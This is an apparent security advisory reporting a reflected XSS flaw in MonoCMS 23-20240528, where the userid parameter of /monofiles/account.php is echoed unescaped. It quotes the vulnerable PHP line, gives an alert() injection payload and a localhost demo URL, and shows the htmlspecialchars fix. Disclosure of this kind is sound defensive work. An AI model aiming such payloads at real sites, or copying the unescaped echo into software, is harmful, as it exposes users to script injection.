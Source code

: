 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: `userid`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `userid` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>
```

<br />

## Injection Payload Tested:

We set `userid` to:
```
"><script>alert('XSS')</script>
```

<br />

## URL-encoded, this becomes:
```
%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Resulting HTML After Injection:
```
<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `<script>alert('XSS')</script>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/account.php` looks like:

<br />

![account.php](https://i.postimg.cc/dV25sxCv/1.png)

<br />

Then we can add our payload `"><script>alert('XSS by secuserx')</script>` :
```
http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>
```

<br />

![payload](https://i.postimg.cc/CKwmzsC8/2.png)

<br />

After submitting the url with the vulnerable parameter `userid` and the XSS payload `"><script>alert('XSS by secuserx')</script>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/pdkk85k6/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>
```

<br />

> One Click Can Change Everything: Be Secure.
